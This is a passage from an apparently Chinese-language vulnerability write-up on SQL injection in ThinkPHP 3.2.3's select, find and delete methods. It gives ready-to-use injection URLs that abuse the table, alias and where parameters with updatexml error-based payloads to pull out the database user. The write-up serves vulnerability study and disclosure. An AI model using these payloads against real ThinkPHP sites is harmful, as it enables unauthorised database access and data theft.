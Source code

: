                 $this->_after_delete($data, $options);
            }
            // 返回删除记录个数
            return $result;

### 漏洞复现

针对`select()` 和`find()`方法
,有很多地方可注，这里主要列举三个`table`，`alias`，`where`，更多还请自行跟踪一下`parseSql`的各个`parseXXX`方法，目测都是可行的，比如`having`,`group`等。

    table：http://www.0-sec.org/index.php?m=Home&c=Index&a=test&id[table]=user where%201%20and%20updatexml(1,concat(0x7e,user(),0x7e),1)--

    alias：http://www.0-sec.org/index.php?m=Home&c=Index&a=test&id[alias]=where%201%20and%20updatexml(1,concat(0x7e,user(),0x7e),1)--

    where: http://www.0-sec.org/index.php?m=Home&c=Index&a=test&id[where]=1%20and%20updatexml(1,concat(0x7e,user(),0x7e),1)--

![](./.resource/Thinkphp3.2.3select&find&delete注入漏洞/media/rId31.png)

而`delete()`方法的话同样，这里粗略举三个例子，`table`,`alias`,`where`，但使用`table`和`alias`的时候，同时还必须保证`where`不为空（详细原因后面会说）

    where: http://www.0-sec.org/index.php?m=Home&c=Index&a=test&id[where]=1%20and%20updatexml(1,concat(0x7e,user(),0x7e),1)--

    alias: http://www.0-sec.org/index.php?m=Home&c=Index&a=test&id[where]=1%20and%20updatexml(1,concat(0x7e,user(),0x7e),1)--

    table: http://www.0-sec.org/index.php?m=Home&c=Index&a=test&id[table]=user%20where%201%20and%20updatexml(1,concat(0x7e,user(),0x7e),1)--&id[where]=1

![](./.resource/Thinkphp3.2.3select&find&delete注入漏洞/media/rId32.png)

参考链接
--------

> <https://xz.aliyun.com/t/2629#toc-1>
